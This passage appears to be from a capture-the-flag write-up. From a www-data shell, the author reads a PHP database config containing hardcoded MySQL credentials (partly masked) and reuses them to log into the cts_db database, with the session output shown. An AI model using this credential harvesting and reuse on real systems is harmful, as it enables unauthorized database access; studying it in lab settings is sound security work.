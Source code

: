 ```php
cat DBConnection.php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoR********9tvq2UdNWE';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
```

Logging into `cts_db` database to retreive some juicy info .

```sql
www-data@lockdown:/var/www/html/classes$ mysql -h localhost -u cts -pYOUMKt**********9tvq2UdNWE -D cts_db       

mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 212
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)

```